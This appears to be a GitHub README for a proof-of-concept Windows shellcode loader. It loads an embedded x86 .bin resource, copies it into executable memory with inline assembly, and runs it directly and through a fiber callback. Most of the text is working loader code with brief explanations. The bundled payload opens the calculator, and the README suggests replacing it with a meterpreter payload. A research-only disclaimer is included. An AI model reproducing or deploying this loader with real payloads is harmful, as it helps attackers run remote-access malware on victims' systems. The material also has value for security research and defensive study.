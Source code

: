 # Create_Thread-Inline_Assembly_x86_Fibers
This POC provides the ability to execute **x86 shellcode** in the form of a .bin file based on **x86 inline assembly and execution over fibers**.
The POC includes a calc.bin, which executes the Windows x86 calculator and can be replaced for example by a **x86 meterpreter.bin payload**.

# **Disclaimer**
The content and all code examples in this article are for research purposes only and must not be used in an unethical context! The code used is not new and I make no claim to it. Most of the code comes, as so often, from the **ired.team, thank you @spotheplanet for your brilliant work and sharing it with us all!**

# **Description**
This code part initializes a handle (HRSRC) to a binary resource in the executable file. The FindResource() function locates the resource based on its name (IDR_CALC_BIN1) and type (CALC_BIN). The NULL parameter specifies the module instance handle, which is not needed in this case since the resource is located in the same executable file.
``` HRSRC codeResource;
    codeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_CALC_BIN1), L"CALC_BIN");
```

These lines determine the size of the resource data in bytes, load the resource data into memory, and lock the data in place so that it can be accessed by the program.
``` DWORD codeSize;
    codeSize = SizeofResource(NULL, codeResource);
    HGLOBAL codeResourceData;
    codeResourceData = LoadResource(NULL, codeResource);
    void* codeData;
    codeData = LockResource(codeResourceData);
```

This code part allocates a region of memory that is both committed and reserved with the PAGE_EXECUTE_READWRITE protection flag. This means that the memory is both readable and writable, but also executable. The VirtualAlloc() function is used to allocate a block of memory, and the NULL parameter specifies that the block should be allocated in the process's default address space.
``` void* exec;
    exec = VirtualAlloc(NULL, codeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

This code part uses assembly language to copy the resource data to the executable memory. The mov instruction moves data from one register to another, and rep movsb copies data from the source address to the destination address.
```    
    __asm {
        mov esi, codeData;
        mov edi, exec;
        mov ecx, codeSize;
        cld;
        rep movsb;
    }
```

This code part uses assembly language to execute the code in the newly allocated memory. The mov instruction loads the address of the executable memory into the EBX register, and call ebx calls the code at that address.
```    
    __asm {
        mov ebx, exec;
        call ebx;
    }
```

This code part defines a fiber callback function called FiberStart(). The function takes a single LPVOID parameter, which is a void pointer that can be used to pass data to the function. The function casts the lpParameter parameter to a shellcode function pointer type, and then calls the shellcode function.
```// Fiber callback function
VOID CALLBACK FiberStart(LPVOID lpParameter)
{
    // Cast the parameter to the shellcode function pointer type
    typedef void(*ShellcodeFn)();
    ShellcodeFn shellcode = (ShellcodeFn)lpParameter;

    // Call the shellcode function
    shellcode();
}
```
This code part frees the executable memory that was allocated earlier using the VirtualFree() function with the MEM_RELEASE flag. The 0 parameter specifies the size of the memory region to free, and return 0 ends the program.
```    
    VirtualFree(exec, 0, MEM_RELEASE);

    return 0;
```
